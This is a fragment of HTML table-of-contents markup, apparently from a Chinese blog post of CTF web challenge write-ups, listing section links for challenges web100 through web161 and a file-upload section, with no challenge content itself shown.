class="toc-link" href="#web100"><span class="toc-number">21.</span> <span class="toc-text">web100</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-17"><span class="toc-number">21.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-14"><span class="toc-number">21.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web101"><span class="toc-number">22.</span> <span class="toc-text">web101</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-18"><span class="toc-number">22.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-15"><span class="toc-number">22.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web102"><span class="toc-number">23.</span> <span class="toc-text">web102</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-19"><span class="toc-number">23.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-16"><span class="toc-number">23.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web103"><span class="toc-number">24.</span> <span class="toc-text">web103</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-20"><span class="toc-number">24.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-17"><span class="toc-number">24.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web104%E2%80%93%E6%8D%A2%E9%A2%98%E5%9E%8B"><span class="toc-number">25.</span> <span class="toc-text">web104–换题型</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-21"><span class="toc-number">25.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-18"><span class="toc-number">25.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web105"><span class="toc-number">26.</span> <span class="toc-text">web105</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-22"><span class="toc-number">26.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-19"><span class="toc-number">26.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web106"><span class="toc-number">27.</span> <span class="toc-text">web106</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-23"><span class="toc-number">27.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-20"><span class="toc-number">27.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web107%E2%80%93%E6%8D%A2%E9%A2%98%E5%9E%8B"><span class="toc-number">28.</span> <span class="toc-text">web107–换题型</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-24"><span class="toc-number">28.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-21"><span class="toc-number">28.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web108"><span class="toc-number">29.</span> <span class="toc-text">web108</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-25"><span class="toc-number">29.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-22"><span class="toc-number">29.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web109"><span class="toc-number">30.</span> <span class="toc-text">web109</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-26"><span class="toc-number">30.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-23"><span class="toc-number">30.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web110"><span class="toc-number">31.</span> <span class="toc-text">web110</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-27"><span class="toc-number">31.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-24"><span class="toc-number">31.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web111"><span class="toc-number">32.</span> <span class="toc-text">web111</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-28"><span class="toc-number">32.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-25"><span class="toc-number">32.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web112"><span class="toc-number">33.</span> <span class="toc-text">web112</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-29"><span class="toc-number">33.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-26"><span class="toc-number">33.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web113"><span class="toc-number">34.</span> <span class="toc-text">web113</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-30"><span class="toc-number">34.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-27"><span class="toc-number">34.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web114"><span class="toc-number">35.</span> <span class="toc-text">web114</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-31"><span class="toc-number">35.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-28"><span class="toc-number">35.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web115"><span class="toc-number">36.</span> <span class="toc-text">web115</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-32"><span class="toc-number">36.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-29"><span class="toc-number">36.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%94%B6%E8%8E%B7"><span class="toc-number">36.3.</span> <span class="toc-text">收获</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web123"><span class="toc-number">37.</span> <span class="toc-text">web123</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-33"><span class="toc-number">37.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-30"><span class="toc-number">37.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web125"><span class="toc-number">38.</span> <span class="toc-text">web125</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-34"><span class="toc-number">38.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-31"><span class="toc-number">38.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%94%B6%E8%8E%B7-1"><span class="toc-number">38.3.</span> <span class="toc-text">收获</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web126"><span class="toc-number">39.</span> <span class="toc-text">web126</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-35"><span class="toc-number">39.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-32"><span class="toc-number">39.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web127"><span class="toc-number">40.</span> <span class="toc-text">web127</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-36"><span class="toc-number">40.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-33"><span class="toc-number">40.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web128"><span class="toc-number">41.</span> <span class="toc-text">web128</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-37"><span class="toc-number">41.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-34"><span class="toc-number">41.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web129"><span class="toc-number">42.</span> <span class="toc-text">web129</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-38"><span class="toc-number">42.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-35"><span class="toc-number">42.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web130"><span class="toc-number">43.</span> <span class="toc-text">web130</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-39"><span class="toc-number">43.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-36"><span class="toc-number">43.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web131"><span class="toc-number">44.</span> <span class="toc-text">web131</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-40"><span class="toc-number">44.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-37"><span class="toc-number">44.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web132"><span class="toc-number">45.</span> <span class="toc-text">web132</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-41"><span class="toc-number">45.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-38"><span class="toc-number">45.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web133"><span class="toc-number">46.</span> <span class="toc-text">web133</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-42"><span class="toc-number">46.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-39"><span class="toc-number">46.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web134"><span class="toc-number">47.</span> <span class="toc-text">web134</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-43"><span class="toc-number">47.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-40"><span class="toc-number">47.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web135"><span class="toc-number">48.</span> <span class="toc-text">web135</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-44"><span class="toc-number">48.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-41"><span class="toc-number">48.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web136"><span class="toc-number">49.</span> <span class="toc-text">web136</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-45"><span class="toc-number">49.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-42"><span class="toc-number">49.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web137"><span class="toc-number">50.</span> <span class="toc-text">web137</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-46"><span class="toc-number">50.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-43"><span class="toc-number">50.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web138"><span class="toc-number">51.</span> <span class="toc-text">web138</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-47"><span class="toc-number">51.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-44"><span class="toc-number">51.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web139"><span class="toc-number">52.</span> <span class="toc-text">web139</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-48"><span class="toc-number">52.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-45"><span class="toc-number">52.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web140"><span class="toc-number">53.</span> <span class="toc-text">web140</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-49"><span class="toc-number">53.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-46"><span class="toc-number">53.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web141"><span class="toc-number">54.</span> <span class="toc-text">web141</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-50"><span class="toc-number">54.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-47"><span class="toc-number">54.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E8%87%AA%E5%B7%B1%E5%81%9A%E7%9A%84"><span class="toc-number">54.2.1.</span> <span class="toc-text">自己做的</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E5%AE%98%E6%96%B9%E8%A7%86%E9%A2%91%E5%88%86%E6%9E%90-%E8%87%AA%E5%B7%B1%E5%88%86%E6%9E%90%E7%9A%84"><span class="toc-number">54.2.2.</span> <span class="toc-text">官方视频分析+自己分析的</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web142"><span class="toc-number">55.</span> <span class="toc-text">web142</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-51"><span class="toc-number">55.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-48"><span class="toc-number">55.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web143"><span class="toc-number">56.</span> <span class="toc-text">web143</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-52"><span class="toc-number">56.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-49"><span class="toc-number">56.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web144"><span class="toc-number">57.</span> <span class="toc-text">web144</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-53"><span class="toc-number">57.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-50"><span class="toc-number">57.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web145"><span class="toc-number">58.</span> <span class="toc-text">web145</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-54"><span class="toc-number">58.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-51"><span class="toc-number">58.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web146"><span class="toc-number">59.</span> <span class="toc-text">web146</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-55"><span class="toc-number">59.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-52"><span class="toc-number">59.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web147"><span class="toc-number">60.</span> <span class="toc-text">web147</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-56"><span class="toc-number">60.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-53"><span class="toc-number">60.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web148"><span class="toc-number">61.</span> <span class="toc-text">web148</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-57"><span class="toc-number">61.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-54"><span class="toc-number">61.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%AE%98%E6%96%B9WP"><span class="toc-number">61.3.</span> <span class="toc-text">官方WP</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web149"><span class="toc-number">62.</span> <span class="toc-text">web149</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-58"><span class="toc-number">62.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-55"><span class="toc-number">62.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web150"><span class="toc-number">63.</span> <span class="toc-text">web150</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-59"><span class="toc-number">63.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-56"><span class="toc-number">63.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%AE%98%E6%96%B9WP-1"><span class="toc-number">63.3.</span> <span class="toc-text">官方WP</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web150-plus"><span class="toc-number">64.</span> <span class="toc-text">web150 plus</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-60"><span class="toc-number">64.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-amp-%E5%AE%98%E6%96%B9WP"><span class="toc-number">64.2.</span> <span class="toc-text">解题&amp;官方WP</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0"><span class="toc-number">65.</span> <span class="toc-text">文件上传</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web151"><span class="toc-number">66.</span> <span class="toc-text">web151</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-61"><span class="toc-number">66.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-57"><span class="toc-number">66.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web-152"><span class="toc-number">67.</span> <span class="toc-text">web 152</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-62"><span class="toc-number">67.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-58"><span class="toc-number">67.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web153"><span class="toc-number">68.</span> <span class="toc-text">web153</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-63"><span class="toc-number">68.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-59"><span class="toc-number">68.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web154"><span class="toc-number">69.</span> <span class="toc-text">web154</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-64"><span class="toc-number">69.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-60"><span class="toc-number">69.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web155"><span class="toc-number">70.</span> <span class="toc-text">web155</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-65"><span class="toc-number">70.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-61"><span class="toc-number">70.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web156"><span class="toc-number">71.</span> <span class="toc-text">web156</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-66"><span class="toc-number">71.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-62"><span class="toc-number">71.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E7%AA%81%E5%8F%91%E5%A5%87%E6%83%B3%E7%9A%84WP"><span class="toc-number">71.3.</span> <span class="toc-text">突发奇想的WP</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#upload%E6%96%87%E4%BB%B6%E7%9A%84%E5%86%85%E5%AE%B9%EF%BC%9A"><span class="toc-number">71.4.</span> <span class="toc-text">upload文件的内容：</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web157"><span class="toc-number">72.</span> <span class="toc-text">web157</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-67"><span class="toc-number">72.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-63"><span class="toc-number">72.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web158"><span class="toc-number">73.</span> <span class="toc-text">web158</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-68"><span class="toc-number">73.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-64"><span class="toc-number">73.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web159"><span class="toc-number">74.</span> <span class="toc-text">web159</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-69"><span class="toc-number">74.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-65"><span class="toc-number">74.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web160"><span class="toc-number">75.</span> <span class="toc-text">web160</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-70"><span class="toc-number">75.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-66"><span class="toc-number">75.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web161"><span class="toc-number">76.</span> <span class="toc-text">web161</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-71"><span class="toc-number">76.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-67"><span class="toc-number">76.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a 